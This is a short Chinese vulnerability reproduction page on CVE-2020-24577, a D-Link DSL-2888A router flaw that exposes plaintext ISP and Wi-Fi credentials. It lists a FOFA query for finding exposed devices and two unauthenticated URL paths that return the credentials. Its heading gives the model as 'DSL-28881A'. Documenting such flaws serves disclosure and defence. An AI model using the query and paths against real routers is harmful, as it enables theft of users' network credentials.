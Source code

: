# D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

> [!NOTE]
>
> D-Link DSL-2888A

## FOFA

> [!NOTE]
>
> body="DSL-2888A"

## 漏洞复现

登录页面输入任意密码建立连接

![](image/link-1.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](image/link-3.png)

> [!NOTE]
>
> 连接Wifl或物理连接Wifi才能访问